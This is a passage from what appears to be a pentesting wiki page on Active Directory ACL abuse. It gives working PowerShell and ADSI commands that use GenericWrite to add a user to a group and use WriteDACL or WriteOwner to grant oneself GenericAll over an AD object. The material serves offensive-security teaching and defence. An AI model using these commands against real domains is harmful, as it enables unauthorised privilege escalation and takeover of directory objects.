 Below shows the user's ~~`delegate`~~ logon script field got updated in the AD:

![](../../../.gitbook/assets/21.png)

## GenericWrite on Group

This allows you to set as members of the group new users (yourself for example):

```powershell
# Create creds
$pwd = ConvertTo-SecureString 'JustAWeirdPwd!$' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('DOMAIN\username', $pwd) 
# Add user to group
Add-DomainGroupMember -Credential $creds -Identity 'Group Name' -Members 'username' -Verbose
# Check user was added
Get-DomainGroupMember -Identity "Group Name" | Select MemberName
# Remove group member
Remove-DomainGroupMember -Credential $creds -Identity "Group Name" -Members 'username' -Verbose
```

## WriteDACL + WriteOwner

If you are the owner of a group, like I'm the owner of a `Test` AD group:

![](../../../.gitbook/assets/22.png)

Which you can of course do through powershell:

```csharp
([ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local").PSBase.get_ObjectSecurity().GetOwner([System.Security.Principal.NTAccount]).Value
```

![](../../../.gitbook/assets/23.png)

And you have a `WriteDACL` on that AD object:

![](../../../.gitbook/assets/24.png)

...you can give yourself [`GenericAll`](../../../windows/active-directory-methodology/broken-reference/) privileges with a sprinkle of ADSI sorcery:

```csharp
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

Which means you now fully control the AD object:

![](../../../.gitbook/assets/25.png)
